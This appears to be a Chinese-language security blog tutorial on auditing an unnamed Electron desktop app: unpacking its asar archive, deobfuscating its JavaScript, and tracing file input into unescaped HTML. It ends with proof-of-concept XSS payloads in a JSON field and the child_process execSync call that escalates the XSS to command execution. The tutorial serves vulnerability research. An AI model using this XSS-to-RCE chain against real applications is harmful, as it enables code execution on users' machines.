# electron应用漏洞挖掘 - 先知社区

electron应用漏洞挖掘

- - -

### 前言

electron是一个流行的桌面应用开发框架,允许开发者使用web技术和nodejs结合来迅速开发桌面应用. 不过由于使用了js等, 也引入了xss漏洞.  
这次用一个简单的app实战挖掘,为了避免广告嫌疑,就不提供app名字了.

### 解包

electron真正的应用内容 位于 `resources`目录.  
如果打开后发现直接就是代码目录, 就可以跳过这一步了

[](https://xzfile.aliyuncs.com/media/upload/picture/20191226035136-f56d3014-274f-1.png)  
一般会有两个asar包, `electron.asar`和应用一般无关, 直接看另一个就行了.

asar只是一个压缩包, 解包和重打包的工具可以直接通过`npm`下载.  
下载命令`sudo npm install -g asar` 解压命令 `asar extract app.asar <输出目录>`

### 审计代码

各个目录的目录结构不一定,但都有一个主文件 如 `main.js`. 在这里处理应用的启动

#### 自定义url协议

electron应用可以注册自己的url 协议 例如`custom://`, 使得可以通过浏览器直接打开应用. 这里对url协议的处理不当可能导致rce等 例子.

注册url的代码例子如下

```plain
const protocol = electron.protocol

// handles links `todo2://<something>`
const PROTOCOL_PREFIX = 'todo2'

function createWindow () {
  mainWindow = new BrowserWindow({width: 1000, height: 800})
  // handle url protocol
  protocol.registerHttpProtocol(PROTOCOL_PREFIX, (req, cb) => {
    const fullUrl = formFullTodoUrl(req.url)
    devToolsLog('full url to open ' + fullUrl)
    mainWindow.loadURL(fullUrl)
  })
}
```

由于未在这款应用发现注册自定义url,只能跳过这处的代码审计了

#### 代码反混淆

如果代码未使用反混淆, 可跳过这步.  
这次审计的app使用了`javascript obfuscator`, 并不算太难.  
[](https://xzfile.aliyuncs.com/media/upload/picture/20191226040622-05e6fc2a-2752-1.png)

使用`https://lelinhtinh.github.io/de4js/` 就能解出来. 不过原有的参数名就回不来了, 在阅读代码时利用IDE的重命名变量能有效提高可读性  
[](https://xzfile.aliyuncs.com/media/upload/picture/20191226041119-b708ee14-2752-1.png)

#### 寻找输入点

为了寻找漏洞, 我们需要先寻找输入点.这个时候参考应用自身功能 找到对应的`html`文件代码是最方便的.  
这个应用允许用户打开和编辑一些文件, 找到对应的`editpoc.html`. 发现这个文件高达`2000`多行.  
好在html文件没有做js混淆, 可以通过IDE的文件结构功能快速浏览, 减少了不少工作量  
[](https://xzfile.aliyuncs.com/media/upload/picture/20191226041658-80fbc71e-2753-1.png)

花费了几分钟后, 找到了从文件获取数据的函数.然后代码将数据传递给了下面三个函数  
[](https://xzfile.aliyuncs.com/media/upload/picture/20191226042333-6c032504-2754-1.png)

第一个都是使用`$(#xxx).val()`函数 没太大问题  
[](https://xzfile.aliyuncs.com/media/upload/picture/20191226042533-b3ab8fcc-2754-1.png)

第二个被混淆了, 并且反混淆没成功  
[](https://xzfile.aliyuncs.com/media/upload/picture/20191226043150-94c40a20-2755-1.png)

只好自己写个脚本来反混淆了

```plain
# 从上面文件拷贝出来
data= ["xxx"]
# 上面文件的变量名
name = "_$_3fd4"
filename = "bmheditor.js"

with open(filename, "r") as f:
     content = f.read()

for i in range(len(data)):
    content = content.replace(name+f"[{i}]", f"`{data[i]}`")

with open("output.js", "w") as f:
    f.write(content)
```

最后效果[](https://xzfile.aliyuncs.com/media/upload/picture/20191226044831-e8db441e-2757-1.png)  
可以发现并没有太明显的拼接html痕迹 也是调用`val`

第三个经过一些值传递后的代码  
[](https://xzfile.aliyuncs.com/media/upload/picture/20191226045211-6c30f142-2758-1.png)

可以发现像这样的  
`var $input2 = $("<input type='text' value='"+value+"' name='value' class='form-control' style=' width:20%; display: inline-block;' placeholder='value'>");`  
直接拼接html, 如果没有过滤将会导致xss.

而`value`是从`var value = v.value;` 传递来的

在上面的代码也没有过滤

```plain
if (typeof(item.ExpParams) == "undefined") { 
            var ExpParams = [];
        }else{
            var ExpParams = item.ExpParams;
        }
```

查看被传递过来参数`pocJsonInfo`

```plain
var FileName = temp_params2;
            if(from == 'store') {
                var pocJsonInfo = getPocJsonByRubyFileName(FileName, 1);
            } else {
                var pocJsonInfo = getPocJsonByRubyFileName(FileName);
            }
            pocJsonInfo = JSON.parse(pocJsonInfo);
            old_poc_content = pocJsonInfo;

            pocJsonInfo.FileName = FileName;
```

只经过了json解析  
而反混淆的`getPocJsonByRubyFileName`函数也没什么过滤  
[](https://xzfile.aliyuncs.com/media/upload/picture/20191226051233-44c27ace-275b-1.png)

### 利用

上面解析的json 实际上是这app可以编辑的文件里的一部分 [](https://xzfile.aliyuncs.com/media/upload/picture/20191226051712-eb0aaaf0-275b-1.png)

只需要添加

```plain
"ExpParams": [
          {"name":"test'/><script>alert(1)</script>","type":"input","value":"test"}
      ],
```

这样的即可.

要利用electron的xss 由于electron允许使用nodejs, 所以只需要引入nodejs自带的命令执行模块`child_process`即可  
例子  
`require('child_process').execSync('xxxxx')`

这边环境是Linux 如果要弹个计算器  
实际exp

```plain
"ExpParams": [
          {"name":"test'/></td></tr>","type":"input","value":"test"}
      ],
```

弹计算器时间  
[](https://xzfile.aliyuncs.com/media/upload/picture/20191226052222-a3a2fafe-275c-1.png)
